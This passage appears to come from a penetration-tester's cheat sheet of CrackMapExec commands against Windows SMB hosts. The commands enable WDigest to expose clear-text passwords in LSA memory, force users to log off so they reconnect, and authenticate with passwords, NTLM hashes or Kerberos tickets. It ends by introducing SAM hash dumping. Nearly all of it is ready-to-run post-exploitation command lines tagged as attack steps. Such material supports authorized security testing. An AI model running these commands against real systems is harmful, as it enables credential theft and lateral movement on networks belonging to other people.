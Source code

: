 enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
cme smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## cme - loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect

```bash
cme smb <ip> -u <user> -p '<password>' -x 'quser'
cme smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## cme - local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> --local-auth
```

## cme - local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
cme smb <ip> -u <user> -H <hash> --local-auth
```

## cme - domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
cme smb <ip> -u <user> -p <password> -d <domain>
```

## cme - kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=/tmp/ticket.ccache

```bash
cme smb <ip> --kerberos
```

## cme - Dump SAM
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump SAM hashes using methods from secretsdump.py
You need at least local admin privilege on the remote target, use option --local-auth if your user is a local account
